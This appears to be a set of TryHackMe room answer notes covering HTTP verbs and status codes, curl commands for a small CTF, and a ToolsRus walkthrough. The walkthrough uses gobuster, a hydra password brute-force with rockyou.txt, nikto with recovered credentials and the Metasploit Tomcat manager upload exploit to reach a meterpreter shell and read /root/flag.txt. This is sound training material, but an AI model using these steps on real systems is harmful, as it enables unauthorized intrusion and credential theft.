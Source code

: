 # Web Fundamentals

## Web Fundamentals

### Task 3 More HTTP - Verbs and request formats

1. Verb used for login?
```
POST
```
2. Verb used to see bank balance once logged in?
```
GET
```
3. Does body of GET request matter?
```
nay
```
4. Status code for "I'm a teapot"?
```
418
```
5. Status code when unauthenticated?
```
401
```

### Task 5 Mini CTF

1. GET flag
```
curl http://IP:8081/ctf/get
```
2. POST flag
```
curl -X POST -d flag_please http://IP:8081/ctf/post
```
3. Get cookie flag
```
Inspect element for /ctf/getcookie, then under "storage"
```
4. Set cookie flag
```
curl -b "flagpls=flagpls" http://IP:8081/ctf/sendcookie
```

## ToolsRus

### Task 1 ToysRus

To find directories
```
gobuster dir -u http://IP:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

To find Bob's password
```
hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.219.157 http-get /protected
```

Using Nikto with creds
```
nikto -id bob:bubbles -h http://10.10.219.157:1234/manager/html
```

use metasploit to exploit
```
use exploit/multi/http/tomcat_mgr_upload
```

Once meterpreter has spawned
```
getuid
```
```
cat /root/flag.txt
```

## RP: Web Scanning

### Task 2 ...I'm supposed to scan with that?

[Nikto Cheat Sheet](https://redteamtutorials.com/2018/10/24/nikto-cheatsheet/)